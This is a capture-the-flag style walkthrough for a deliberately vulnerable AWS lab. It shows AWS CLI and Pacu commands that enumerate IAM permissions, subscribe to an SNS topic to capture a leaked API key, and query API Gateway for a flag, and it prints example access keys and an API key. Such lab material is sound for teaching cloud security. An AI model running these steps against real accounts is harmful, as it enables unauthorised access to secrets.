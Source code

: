 # SNS_Secrets Walkthrough

## Summary

In this scenario, you are provided with AWS credentials. You need to enumerate permissions and realize you have permissions to list and subscribe to SNS topics. Use Pacu's new modules "sns__enum" and "sns__subscribe" to subscribe to the topic. You will receive an email from the topic with an API Key as a debug message. Then, use the AWS CLI to enumerate the API Gateways to find the API Gateway path, method, stage, and resource. Finally, do a curl request with the API key to get the final flag.

## Detailed Walkthrough

### Configuring the AWS Keys

After launching the scenario, you will be provided with an Access Key ID and Secret Access Key for an IAM role. These allow you to interact with the AWS account from the IAM role using the CLI (Command Line Interface). You can set up an IAM profile with this command:

```bash
aws configure --profile sns-secrets
```

You will then be prompted for the Access Key ID, Secret, and Region. Provide the keys you received after launching the scenario. Below is an example (your keys will be different.)  

```bash
AWS Access Key ID: AKIA2GIZ2CSU6NO2YIXU
AWS Secret Access Key: SYpZBG++MXkmdvmUL614A4XAAs9L88QRrMOBhqZ9
Default region name: us-east-1
Default output format [None]:
```

Finally, you can confirm access by running the AWS equivalent of “whoami”: 

```bash
aws sts get-caller-identity --profile sns-secrets 
```

This should return the UserId, Account, and ARN for the role to verify you have access. 

### Discovering Permissions

Now that we have access to an IAM user in the AWS environment, we need to figure out what permissions we have. This can be done using the AWS CLI. First, we need to see what policies are connected to our user: 
(Note: The username can be found in the output of the “aws sts get-caller-identity” command we ran previously). 

```bash
aws iam list-user-policies --user-name [UserName] --profile sns-secrets
```

This command will return the policy name for our account. We can further enumerate this policy: 

```bash
aws iam get-user-policy --user-name [UserName] --policy-name [PolicyName] --profile sns-secrets 
```

The output of this command provide us with our policy; note our IAM User has permissions related to SNS, IAM, and API Gateway. 

### Subscribing to SNS

Amazon Simple Notification Service (SNS) is a managed messaging service that enables you to send notifications to subscribers using various methods like email, SMS, and HTTP. It's often used for alerting, sending updates, and integrating different systems by delivering messages reliably and quickly. It's important to limit SNS access to specific users to ensure the security and integrity of your messaging system. Unrestricted access could lead to unauthorized users sending spam, triggering unnecessary alerts, or accessing sensitive information.

We can enumerate SNS with Pacu. Pacu is an open-source AWS exploitation framework, designed for offensive security testing against cloud environments. Instructions for installing Pacu are out-of-scope for this walkthrough but you can refer to the [official Pacu documentation on Github](https://github.com/RhinoSecurityLabs/pacu). Once Pacu is installed and a session is configured, you can import the profile you configured: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > import_keys sns-secrets
```

There are two modules for interacting with SNS; you can find these by searching within Pacu: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > search sns

[Category: ENUM]

    List and describe Simple Notification Service topics

  sns__enum

[Category: LATERAL_MOVE]

    Subscribe to a Simple Notification Service (SNS) topic

  sns__subscribe
```

Let’s begin with the “sns__enum” module. We can get more information with this command:

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__enum
```

The module will attempt to list and gather information from Simple Notification Service topics. Let’s run it and see if it identifies an SNS topic we can access. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__enum --region us-east-1
```

We can see the topic by typing “data” to access the Pacu database for our session. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > data
```

Now that we have the full ARN of the SNS Topic, let’s check out the sns__subscribe module: 

```bash
Pacu (sns-secrets:imported-sns-secrets) > help sns__subscribe
```

This module will attempt to subscribe to a topic based on the ARN via an email address. We need to provide it with the topic and an email. 

```bash
Pacu (sns-secrets:imported-sns-secrets) > run sns__subscribe --topics [TopicARN] --email [Email Address]
```

After subscribing, you will need to go to your email and confirm the subscription: 

![Confirm Subscription](confirm-subscription.png)

### Accessing the API Gateway

After subscribing to the topic, you will receive an SNS Message that leaks an API Key for a API Gateway. 

![Leaked API Key](leaked-apikey.png)

Now that we have an API Key for an API Gateway, we need to identify the full URL to access the gateway. First, let’s try and retrieve basic information on the API: 

```bash
aws apigateway get-rest-apis --profile sns-secrets --region us-east-1
```

This provides us with the ID of the API Gateway. Using this ID we can get the stages and resources: 

```bash
aws apigateway get-stages --rest-api-id [API ID] --profile sns-secrets --region us-east-1
aws apigateway get-resources --rest-api-id [API ID] --profile sns-secrets --region us-east-1
```

These commands provide us with the following information:

- Stage Name
- Resource Path

![API Gateway Information](apigateway-info.png)

This information allows us to retrieve the full URL to the API Gateway:

```bash
https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]
```

Finally, we can use a CURL request with the API Key to retrieve the final flag: 

```bash
curl -X GET \
  'https://[API-ID].execute-api.us-east-1.amazonaws.com/[stageName]/[resourcePath]' \
  -H 'x-api-key: 45a3da610dc64703b10e273a4db135bf'
```

![Final Flag](final-flag.png)
